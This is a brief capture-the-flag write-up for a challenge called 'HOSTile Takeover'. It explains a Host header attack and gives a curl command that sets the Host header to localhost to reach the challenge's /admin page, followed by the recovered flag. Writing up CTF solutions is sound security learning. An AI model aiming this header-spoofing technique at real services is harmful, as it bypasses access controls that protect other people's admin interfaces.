

# HOSTile Takeover
> Seems we're unable to access our important admin portal. It worked perfectly fine when we were at our headquarters. Can you help us out? Try to gain access to the admin page and find the secret key!

> https://nicc-hostile-takeover.chals.io

## About the Challenge
We have been given a website and We need to access the `/admin` endpoint



## How to Solve?
This chall is about `Host Header Attack`. We need to change the `Host` HTTP Header from `nicc-hostile-takeover.chals.io` to `localhost`. You can use `Repeater` on burpsuite or you can use `curl` like me

```
curl "https://nicc-hostile-takeover.chals.io/admin" -H "Host: localhost"
```


```
nicc{H0ST_H3AdEr_AtTack}
```